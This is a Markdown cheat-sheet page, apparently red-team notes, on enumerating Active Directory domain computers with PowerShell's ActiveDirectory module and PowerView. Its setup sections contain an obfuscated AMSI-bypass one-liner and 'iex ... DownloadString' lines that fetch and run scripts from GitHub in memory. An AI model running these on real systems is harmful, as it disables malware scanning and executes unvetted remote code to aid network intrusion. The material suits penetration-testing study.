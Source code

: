 ```yaml
---
title: "Domain Computers"
description: "Enumerating domain computers."
lead: "Enumerating information about domain computers using the ActiveDirectory PowerShell module and PowerView."
date: 2021-11-07T18:02:53+01:00
lastmod: 2021-11-07T18:02:53+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_enumeration"
weight: 20
toc: true
---
```


## ActiveDirectory Module

### Setup

```powershell
# If computer has internet access
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# If computer has no internet access, download repository
Import-Module .\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
Import-Module .\ADModule\ActiveDirectory\ActiveDirectory.psd1

# Check if module has been imported correctly
Get-Command -Module ActiveDirectory
```

### Get List of Computers in current Domain

```powershell
Get-ADComputer -Filter * -Properties *
Get-ADComputer -Filter * | Select Name
```

### Information about Operating Systems

```powershell
Get-ADComputer -Filter 'OperatingSystem -Like "*Server 2016"' -Properties OperatingSystem | Select Name,OperatingSystem
```

### Check for Live Hosts (depends on ICMP)

```powershell
Get-ADComputer -Filter * -Properties DNSHostName | %{Test-Connection -Count 1 -ComputerName $_.DNSHostName}
```

## PowerView

### Setup

```powershell
# If it gets blocked by AMSI we can bypass it with
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Then load the module
Import-Module .\PowerView.ps1
. .\PowerView.ps1

# With internet access
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')
```

### Get List of Computers in current Domain

```powershell
Get-NetComputer
Get-NetComputer -FullData
```

### Check for live Hosts (depends on ICMP)

```powershell
Get-NetComputer -Ping
```

### Information about Operating Systems

```powershell
Get-NetComputer -OperatingSystem "*Server 2016"
Get-NetComputer -FullData | select dnshostname,operatingsystem
```

### Get list of sessions on Computer

```powershell
Get-NetSession -ComputerName "dc01.lab.local"
```

### Find any Computers with Constrained Delegation set

```powershell
Get-DomainComputer -TrustedToAuth
```

### Find all Servers that allow Unconstrained Delegation

```powershell
Get-DomainComputer -Unconstrained
```

### Return the local Groups of a remote Server

```powershell
Get-NetLocalGroup SERVER.domain.local
```

### Return the local Group Members of a remote Server using Win32 API Methods (faster but less info)

```powershell
Get-NetLocalGroupMember -Method API -ComputerName SERVER.domain.local
```

### Enumerates Computers in the current Domain with 'outlier' Properties

```powershell
Get-DomainComputer -FindOne | Find-DomainObjectPropertyOutlier
```
